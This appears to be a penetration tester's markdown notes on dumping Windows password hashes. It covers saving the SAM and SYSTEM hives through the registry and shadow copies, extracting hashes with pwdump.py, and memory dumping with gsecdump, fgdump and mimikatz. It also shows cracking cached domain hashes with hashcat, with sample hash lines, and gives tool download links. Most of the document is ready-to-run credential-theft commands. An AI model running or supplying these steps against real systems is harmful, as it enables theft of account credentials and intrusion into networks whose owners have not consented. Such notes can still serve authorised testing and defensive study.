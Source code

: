 ## Password Hashes

### Security Account Manager (SAM) Files

I'm not sure how well this works across the various Windows platforms, but this worked on Windows XP at least

#### Dump from Registry (All Windows)

Most compatible across Windows Versions, but dumps entire registry branch, so you have to filter through it.

```powershell
# Save SAM
reg.exe save HKLM\SAM samoutfile
reg.exe save HKLM\SYSTEM sysoutfile
```

#### Dump from Shadow Copies (modern method)

Works in modern Windows systems

```powershell
# List existing shadow copies
cscript vssown.vbs /list

# Check Volume Shadow Service (VSS) status
cscript vssown.vbs /status
cscript vssown.vbs /mode

# Create a new shadow copy
cscript vssown.vbs /create
# Verify it was created
cscript vssown.vbs /list
# For cleanup, note the Device object value and ID

# Copy the SAM and SYSTEM files from the shadow copy.  Note:  Reference the files by prepending the SAM/SYSTEM path with the Device Object Path, as shown below:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\Temp
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM C:\Temp

# For cleanup, delete the newly created copy
cscript vssown.vbs /delete {YOURCOPYID}

# If the service was stopped originally, stop with this:
cscript vssown.vbs /stop
```

#### Extract Hashes from SAM/SYSTEM Files

You can use pwdump.py to extract the hashes:

```bash
sudo pip install pycryptodome
git clone https://github.com/Neohapsis/creddump7.git
python pwdump.py SYSTEMFILE SAMFILE
```

### Dumping Hashes from Memory

Most (if not all) of these need to be run as SYSTEM to work

### gsecdump

This tool (allegedly) works on 32bit and 64bit Windows across all versions of Windows (it had issues when I tried it on Win2019x64).   This tool injects a DLL into the LSASS process to grab hashes from memory.  This is dangerous to do in a production environment and can cause a kernel panic (BSoD).   Registry and Shadow Copies are safer for production environments.  I had success running this on Windows XP in a non-interactive shell:

```powershell
# Dump all secrets
gsecdump -a

# Dump hashes from SAM/AD
# This should give you the LM hash, it did on WinXP
# Note:  The LM hash was the second hash field in the output
geecdump -s
```

I found this at  https://download.openwall.net/pub/projects/john/contrib/win32/pwdump/

### fgdump

This is another option to dump hashes.  It will dump the creds to a file in the same directory in a file called `YOURIP.pwdump`

It is located in /usr/share/windows-binaries/fgdump and is also available at  https://download.openwall.net/pub/projects/john/contrib/win32/pwdump/

```powershell
# Outputs a file with the results
fgdump
```

### Duds

DumpSvc - Win2019 - this one just ran and did nothing, even from an interactive command prompt.

LSADump2 - I've tried this on WinXP and Win2019 and both times it crashed my reverse shell session.

LSASecretsDump - Win2019 - This printed a little info screen and did nothing at an interactive prompt



### PWDump7

Apparently there's many versions of this.  I've not used it either, but it can be downloaded from http://www.tarasco.org/security/pwdump_7/

### PWDumpX

It appears this is intended to connect through SMB, but it requires admin privileges to do.

I think I tried this on Windows XP Non-Int shell and it didn't work, but it can be downloaded here:  https://packetstormsecurity.com/files/62371/PWDumpX14.zip



### Windows Credential Editor (WCE)

I tried using this one on Windows XP in a non-interactive shell and it wouldn't work.   I wonder if the older version would've worked.  It can be downloaded here:  https://www.ampliasecurity.com/research/windows-credentials-editor/

#### Mimikatz (Meterpreter or Local Interactive)

Mimikatz leverages Local Security Authority Subsystem (LSASS) to access these hashes and requires Admin privileges.  Mimikatz is available as a stand-alone program and is also available as a module for meterpreter.

- First executes `privilege::debug` which enables SeDebugPrivilge access right to tamper with another process.  If this fails, then mimikatz didn't have admin rights.
- LSASS is a SYSTEM process, so it's rights are even higher than admin rights, so `token::elevate` is used to elevate the security token from 'high integrity' (admin) to 'SYSTEM integrity'.  If mimikatz is launched from a SYSTEM shell, this is not required.

```powershell
# Start the mimikatz interpreter in an ADMIN prompt
mimikatz.exe
# enable SeDebugPrivilge
privilege::debug
# Elevate security token
token::elevate
# Dump SAM database
lsadump::sam
# Dump cached domain creds
lsadump::cache
```

To crack hashed domain creds, reformat the output first, it should be in the following format `$DCC2$10240#username#hash`

Then run it through hashcat

```bash
hashcat -m2100 hashes.txt /usr/share/wordlists/rockyou.txt --force --potfile-disable

$DCC2$10240#tris#8f4de03080e5a01e8b883fa8346ac110
$DCC2$10240#pete#b566afa0a7e41755a286cba1a7a3012d
```



##### Non-Interactive Mode

I haven't tested this, but one site claims Mimikatz can be run in non-interactive mode with the following syntax.  I tried this on Windows XP in non-interactive mode and it didn't work, but that might have been specific to the box:

```powershell
C:\temp\mimikatz64.exe "sekurlsa::logonPasswords full" exit >> C:\temp\mimi.txt
```

### Passing the Hash

See the documentation `Linux\Pentest Cmds\Password Attacks\Hashes.md` documentation for this.

### Links

Detailed Write-up on Hash dump strategies - https://bernardodamele.blogspot.com/2011/12/dump-windows-password-hashes.html

Quick Summary of PrivEsc in Windows - http://pentestmonkey.net/uncategorized/from-local-admin-to-domain-admin

Old Tool Downloads - https://download.openwall.net/pub/projects/john/contrib/win32/pwdump/

Another old guide to check out for options - https://flylib.com/books/en/3.85.1.52/1/

Windows Hacking Pack - https://github.com/51x/WHP